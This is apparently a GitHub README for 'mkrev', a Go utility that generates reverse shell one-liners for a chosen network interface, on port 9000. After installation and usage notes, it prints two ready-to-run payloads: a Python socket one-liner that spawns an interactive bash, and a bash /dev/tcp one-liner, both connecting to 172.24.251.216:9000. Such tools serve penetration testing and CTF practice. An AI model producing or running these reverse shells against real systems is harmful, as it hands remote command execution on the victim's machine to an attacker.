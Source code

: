 # Mkrev

A lazy tool to generate reverse shell, it's quicker than browsing a cheatsheet, less typing as well !

> You don't have to type the IP! All hail laziness!  

## Installation

```
$ git clone https://github.com/fahmifj/mkrev.git
$ cd mkrev
$ go build -o mkrev main.go
```
> You can make the binary name even shorter, like `rs`, `grs`  

For easy call, put the binary (mkrev) inside your `$HOME/bin` then append it to your $PATH variable.
```
$ export $PATH=$HOME/bin:$PATH`
```
## Usage and examples

Usage is simple where some languages (Shell options) use shorter names.

```
$ mkrev [interface] [shell]
```

> Port is hard-coded to 9000.

- **interface**, an interface name like eth0, enp0s3, tun0, etc. (Dunno how make this work on Windows) 
- **shell**, the scripting languages/utility name to generate the reverse shell code

Shortened language names:  
- `py` for python
- `nc` for netcat
- `ps` for powershell
- `pl` for perl
- `rb` for ruby

Example usage

- Generate a python reverse shell

	```
	$ mkrev eth0 py
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.24.251.216",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
	```  

- Generate a bash reverse shell
	```
	$ mkrev eth0 bash
    bash -c "bash -i >& /dev/tcp/172.24.251.216/9000 0>&1
	```
